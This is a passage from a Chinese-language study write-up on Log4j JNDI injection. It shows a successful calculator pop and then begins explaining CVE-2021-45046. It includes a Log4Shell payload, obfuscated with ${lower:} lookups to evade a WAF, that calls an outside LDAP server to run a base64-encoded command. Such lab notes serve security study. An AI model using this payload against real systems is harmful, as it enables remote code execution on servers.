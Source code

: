 成功弹出计算器

![image-20230711175225943](img/image-20230711175225943.png)

请求头内容改成这样

```
${${lower:j}${lower:n}${lower:d}${lower:i}:${lower:l}${lower:d}${lower:a}${lower:p}://10.89.17.243:1389/Basic/Command/Base64/Y2FsYw==}
```

说不定能绕过WAF



### 2.3 Log4j2 JNDI注入漏洞（CVE-2021-45046）

（1）漏洞介绍

对于CVE-2021-44228漏洞在`2.15.0`版本上的修复不完善，漏洞影响版本：`All versions from 2.0-beta9 to 2.15.0, excluding 2.12.2`

（2）漏洞原理

从`2.15.0`版本开始，默认是不开启Lookup功能，即`log42.formatMsgNoLookups`默认为`true`。已无法再通过设置该选项为`false`来开启Lookup功能，只能通过在配置文件中指定`%m{lookups}` 来开启。

并且，JndiManager#lookup()方法中，进行了以下安全校验：

```
(1) allowedProtocols：只允许协议java、ldap、ldaps；
(2) allowedHosts：只允许主机为本机IP127.0.0.1、localhost等。
(3) allowedClasses：LDAP服务器的返回包中javaClassName只允许为基本数据类型的类，比如java.lang.Boolean、java.lang.Byte、java.lang.Short等等。
(4) 不能加载远程ObjectFactory类。
```
